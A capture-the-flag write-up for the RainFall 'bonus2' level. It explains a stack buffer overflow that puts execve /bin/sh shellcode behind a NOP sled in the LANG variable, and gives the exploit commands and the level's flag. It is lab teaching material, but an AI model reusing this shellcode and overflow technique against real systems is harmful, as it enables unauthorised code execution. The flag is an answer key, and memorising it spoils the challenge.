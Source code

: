 # Bonus 2

Here we have a program that takes 2 arguments but there is not enough space in the first argument to overflow in EIP and setup a shellcode. However we use an environnement variable in which we can store anything so we put our shellcode in there. Then we have to put enough characters in  argv[1] to overflow in argv2 making a big string to have enough characters to overflow in EIP. But if we keep the language anything else than nl we do not have enough characters to overflow in EIP so we need to start the LANG env variable with "nl" (fi should work too). Then we overflow in EIP giving it the address of our shellcode in the ENV (or any address part of the NOP slope preceding it to make easier address)

```bash
bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 128 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"')
bonus2@RainFall:~$ ./bonus2 NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN $(python -c 'print "N" * 23 + "\xd8\xfe\xff\xbf"')
```
**Flag:** `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`
